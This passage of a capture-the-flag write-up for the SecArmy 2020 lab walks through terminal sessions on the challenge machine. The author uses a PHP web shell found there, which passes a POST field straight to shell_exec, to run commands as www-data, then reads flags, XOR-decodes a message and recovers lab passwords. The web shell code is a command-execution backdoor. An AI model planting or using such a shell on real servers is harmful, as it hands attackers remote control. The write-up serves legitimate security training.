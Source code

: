 ```
seis@svos:~$ cd /var/www/html/shellcmsdashboard
seis@svos:/var/www/html/shellcmsdashboard$ ls
aabbzzee.php  index.php  readme9213.txt  robots.txt
seis@svos:/var/www/html/shellcmsdashboard$ cat readme9213.txt 
cat: readme9213.txt: Permission denied
seis@svos:/var/www/html/shellcmsdashboard$ ls -l readme9213.txt 
--wx-wx-wx 1 www-data root 48 Oct  8 17:54 readme9213.txt
seis@svos:/var/www/html/shellcmsdashboard$ tail aabbzzee.php 
    if(isset($_POST['comm']))
    {
        $cmd = $_POST['comm'];
        echo "<center>";
        echo shell_exec($cmd);
        echo"</center>";
    }
?>
</body>
</html>
```

Running whoami from the search bar, returns www-data. I then ran `chmod +r readme9213.txt`, so seis could read it.

```
seis@svos:/var/www/html/shellcmsdashboard$ cat readme9213.txt 
password for the seventh user is 6u1l3rm0p3n473

siete@svos:~$ cat flag7.txt 
Congratulations!
Here's your 7th flag segment: flag7{d5c26a}

siete@svos:~$ cat hint.txt 
Base 10 and Base 256 result in Base 256!
siete@svos:~$ cat message.txt 
[11 29 27 25 10 21 1 0 23 10 17 12 13 8]
siete@svos:~$ cat key.txt 
x

root@kali:~/ctf/secarmy2020# cat XOR.py 

b1 = bytearray("x")
b2 = bytearray([ 11, 29, 27, 25, 10, 21, 1, 0, 23, 10, 17, 12, 13, 8 ])
b = bytearray(len(b2))
for i in range(len(b2)):
    b[i]= b1[0] ^ b2[i]

print b
root@kali:~/ctf/secarmy2020# python XOR.py 
secarmyxoritup

siete@svos:~$ unzip password.zip 
Archive:  password.zip
[password.zip] password.txt password: 
 extracting: password.txt            
siete@svos:~$ cat password.txt 
the next user's password is m0d3570v1ll454n4
```
